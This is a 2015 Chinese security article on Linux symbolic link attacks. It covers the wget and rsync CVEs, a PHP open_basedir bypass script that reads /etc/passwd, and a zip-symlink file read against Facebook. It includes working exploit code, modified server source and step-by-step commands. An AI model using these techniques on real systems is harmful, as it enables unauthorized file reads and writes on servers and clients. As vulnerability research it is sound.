 # linux symbolic link attack tutorial

2015/01/27 10:01 | [Yaseng](http://drops.wooyun.org/author/Yaseng "由 Yaseng 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0×00 前言

* * *

Linux 作为应用最广泛的开源系统，其中独特的文件系统可以算是支撑 Linux 强大功能 的核心组件之一，而在文件系统中，符号链接(symbolic link )形如"月光宝盒"般可以穿 梭时空，自由穿越森严的路径限制，此一特性，使其地位在整个 Linux 系统中占有重要 一席，本文将通过实际分析与研究，深入探讨因对符号链接处理不当，可能造成的各类 安全问题，以引发对此类问题的重视。

## 0×01 客户端

* * *

客户端递归处理文件时,通过符号链接穿越可造成任意文件写入,代码执行。

案例:

## 1\. Wget ftp symbolic link attack (CVE-2014-4877)

* * *

wget 递归下载 ftp 站点时,如 wget -m ftp://127.0.0.1,在服务端伪造如下数据

```
lrwxrwxrwx 1 root root 33 Oct 11 2013 fakedir -> /tmp
drwxrwxr-x 15 root root 4096 Oct 11 2013 fakedir 
```

会在本地建立一个名称为 fakedir 的 symbolic link ,指向/tmp 目录,当 wget 发送 cwd 指令递归进入 fakedir 在发送 LIST 指令。此时可以伪造一个恶意文件或者

目录比如:

```
-rwx------ 1 root root 21 Aug 29 2013 pwned 
```

RETR 指令下载 pwned 文件时,返回文件内容(二进制或者文本)。即可欺骗 wget 客户端任意目录写入。

具体利用脚本: https://github.com/yaseng/pentest/blob/master/exploit/wget-symlink_attack_exploit.py

漏洞演示:

```
Server(attacker)  wget-symlink_attack_exploit.py
Client(victim)    wget -m ftp://127.0.0.1 
```

![enter image description here](img/img1_u102_jpg.jpg)

## 2:Rsync path spoofing attack vulnerability(CVE-2014-9512 )

* * *

笔者分析 wget 漏洞之后,发现 rsync 递归同步文件时,同样可以用符号链接来 欺骗路径,由于 rsync 双向文件处理算法比较复杂,无法直接用字符串伪造文件流。 首先 rsync 共享文件夹新建 symbolic link 指向/root/,

```
[root@pentest rsync]# ls  -lh
total 8.0K
-rw-r--r-- 1 root root    2 Oct 31 03:16 1.txt
lrwxrwxrwx 1 root root    6 Oct 31 05:09 fakedir -> /root/
drwxr-xr-x 2 root root 4.0K Oct 31 05:08 truedir 
```

truedir 中写入测试文件

```
[root@pentest rsync]# cd  truedir/
[root@pentest truedir]# ls
[root@pentest truedir]# echo rsync  test  >  pwned
[root@pentest truedir]# ls -lh
total 4.0K
-rw-r--r-- 1 root root 11 Oct 31 05:17 pwned
[root@pentest truedir]# 
```

再修改服务端发送文件列表的代码

```
file: rsync-3.1.1/flist.c    line:394
static void send_file_entry(int f, const char *fname, struct file_struct *file,
#ifdef SUPPORT_LINKS
                const char *symlink_name, int symlink_len,
#endif
                int ndx, int first_ndx)
{
  if(strcmp(fname,"turedir/pwned") == 0){

    fname="fakedir/pwned";  // symbolic link 
//change  file  true path(truedir) to  symbolic link  (fakedir)
)
}

```

由于服务端有严格的数据校验,此时会报错 "received request to transfer non-regular file fakedir/pwned.test 7 [sender]",导致客户端同步无法执行 但是对于攻击者来说,服务端是可控的,找到对应代码直接注释。

```
/* if (iflags & ITEM_TRANSFER) {
        int i = ndx - cur_flist->ndx_start;
        if (i < 0 || !S_ISREG(cur_flist->files[i]->mode)) {
            rprintf(FERROR,
                "received request to transfer non-regular file: %d [%s]\n",
                ndx, who_am_i());
            exit_cleanup(RERR_PROTOCOL);
        }
    }
*/

```

漏洞演示:

![enter image description here](img/img2_u109_png.jpg)

client(victim):

![enter image description here](img/img3_u81_jpg.jpg)

## 0×02 web 程序

* * *

当通过 http 访问文件时,web server 对符号链接处理不当可能导致越权访问,文件 读取等安全隐患。

案例:

## 1\. php 通用绕过 open_basedir 读取任意文件

* * *

使用函数 symlink 与 mkdir 创建一个指向目标的符号链接,代码如下

```
<?php
mkdir("abc");
chdir("abc");
mkdir("etc");
chdir("etc");
mkdir("passwd");
chdir("..");
mkdir("abc");
chdir("abc");
mkdir("abc");
chdir("abc");
mkdir("abc");
chdir("abc");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("abc/abc/abc/abc","tmplink");
symlink("tmplink/../../../etc/passwd", "exploit");
unlink("tmplink");  //删除
mkdir("tmplink");
?>

```

生成文件

```
drwxr-xr-x 4 www www 512 Oct 20 00:37 abc
lrwxr-xr-x 1 www www 27 Oct 20 00:37 exploit -> tmplink/../../../etc/passwd
- -rw-r--r-- 1 www www 356 Oct 20 00:32 kakao.php
- -rw-r--r-- 1 www www 45 Oct 20 00:26 sym.php
drwxr-xr-x 2 www www 512 Oct 20 00:37 tmplink 
```

exploit 已经指向/etc/passwd,通过 web server 如 Apache 直接静态访问,可以绕过 php open_basedir 保护读取文件。

## 2\. facebook 本地文件读取

* * *

当服务端会自动解压 zip,tar 等支持符号链接的压缩格式时。可以通过符号链接读取服务器文件 例如 facebook 本地文件读取

```
1\. 创建一个符号链接文件指向/etc/passwd 

ln -s /etc/passwd link 

2\. 压缩文件，同时保留链接 
zip --symlinks test.zip link 

3\. 上传 test.zip 文件，系统会自动解压缩 

4\. 页面当中会返回/etc/passwd 的内容 
```

如图

![enter image description here](img/img4_png.jpg)

## 0×03 参考链接

* * *

1:CVE-2014-4877 wget ftp 下载文件夹链接欺骗漏洞分析 http://xteam.baidu.com/?p=30

2:Rsync path spoofing attack vulnerability http://xteam.baidu.com/?p=169

3:Php open_basedir bypass http://cxsecurity.com/issue/WLB-2009110068

4:Reading local files from Facebook's server http://josipfranjkovic.blogspot.com/2014/12/reading-local-files-from-facebooks.html

版权声明：未经授权禁止转载 [Yaseng](http://drops.wooyun.org/author/Yaseng "由 Yaseng 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Linux 通配符可能产生的问题](http://drops.wooyun.org/papers/2448)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [Volatility FAQ](http://drops.wooyun.org/papers/2854)
*   [Attacking MongoDB](http://drops.wooyun.org/papers/850)
*   [Spring MVC xml 绑定 pojo 造成的 XXE](http://drops.wooyun.org/papers/1911)
*   [CVE 2015-0235: GNU glibc gethostbyname 缓冲区溢出漏洞](http://drops.wooyun.org/papers/4780)